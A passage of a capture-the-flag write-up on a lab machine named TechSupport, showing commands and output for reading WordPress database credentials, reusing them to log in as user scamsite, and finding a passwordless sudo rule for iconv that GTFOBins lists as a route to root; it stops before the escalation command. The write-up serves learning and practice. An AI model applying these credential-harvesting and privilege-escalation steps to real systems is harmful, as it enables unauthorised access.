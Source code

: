 There is nothing useful in the home directory. `websvr` is the share we found early on the challenge, so there's nothing interesting in that.

I started looking through the important files on the machine and found the database creds used by wordpress in `/var/www/html/wordpress/wp-config.php`:

~~~
www-data@TechSupport:/var/www/html/wordpress$ cat wp-config.php | grep DB
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', '[REDACTED]' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8' );
define( 'DB_COLLATE', '' );
~~~

Just for the sake of trying, I tested to see if the password was re-used by user `scamsite` and it fortunately was:

~~~
www-data@TechSupport:/var/www/html/wordpress$ su scamsite
Password: [REDACTED]
scamsite@TechSupport:/var/www/html/wordpress$ id
uid=1000(scamsite) gid=1000(scamsite) groups=1000(scamsite),113(sambashare)
~~~

### Connecting to SSH

Now that we have user `scamsite`'s password, we can use it to connect to the target machine via SSH:

~~~
└─$ ssh scamsite@$IP              

[...]

scamsite@TechSupport:~$ id
uid=1000(scamsite) gid=1000(scamsite) groups=1000(scamsite),113(sambashare)
~~~

## Going root

It's time to work on gaining the flag. Let's run `sudo -l` to check our permissions:

~~~
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
~~~

As you can see, we can run `iconv` as `root` with sudo and no password. Checking [GTFOBins](https://gtfobins.github.io/), we find out that we can use this permission to read and write files and combined with `sudo`, we can do the same with the files that don't have access to:
